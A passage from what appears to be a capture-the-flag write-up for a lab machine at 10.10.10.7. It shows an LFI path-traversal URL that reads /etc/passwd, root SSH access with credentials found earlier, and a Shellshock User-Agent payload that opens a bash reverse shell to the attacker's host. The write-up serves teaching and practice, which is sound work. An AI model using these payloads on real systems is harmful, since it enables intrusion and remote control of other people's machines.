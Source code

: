 Let’s try to use the above credentials to SSH into the admin account.

```text
ssh admin@10.10.10.7
```

It doesn’t work. To narrow down the number of things we should try, let’s use the LFI vulnerability to get the list of users on the machine.

```text
https://10.10.10.7//vtigercrm/graph.php?current_language=../../../../../../../..//etc/passwd%00&module=Accounts&action
```

After filtering through the results, these are the ones I can use.

```text
root:x:0:0:root:/root:/bin/bash                                                                                                                                                
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/bash                                                                                                                            
cyrus:x:76:12:Cyrus IMAP Server:/var/lib/imap:/bin/bash                                                                                                                        
asterisk:x:100:101:Asterisk VoIP PBX:/var/lib/asterisk:/bin/bash                                                                                                               
spamfilter:x:500:500::/home/spamfilter:/bin/bash                                                                                                                               
fanis:x:501:501::/home/fanis:/bin/bash
```

Let’s try SSH-ing into the root account with the credentials we found above.

```text
ssh root@10.10.10.7
```

It worked!

![](https://miro.medium.com/max/651/1*g7i14OVF8Rp-c0r_dGVMlw.png)

For this solution, we don’t have to escalate privileges since we’re already root.

## Solution \#3 <a id="d238"></a>

This solution involves attacking port 10000.

First, visit the webmin application.

![](https://miro.medium.com/max/672/1*oCpETnw1MCmo6XcOBTgaZQ.png)

Then intercept the request in Burp and send it to Repeater. Change the User Agent field to the following string.

```text
() { :;}; bash -i >& /dev/tcp/10.10.14.12/4444 0>&1
```

What that does is it exploits the ShellShock vulnerability and sends a reverse shell back to our attack machine. If you’re not familiar with ShellShock, the following [image](http://www.fantaghost.com/exploiting-shellshock-getting-reverse-shell) explains it really well.
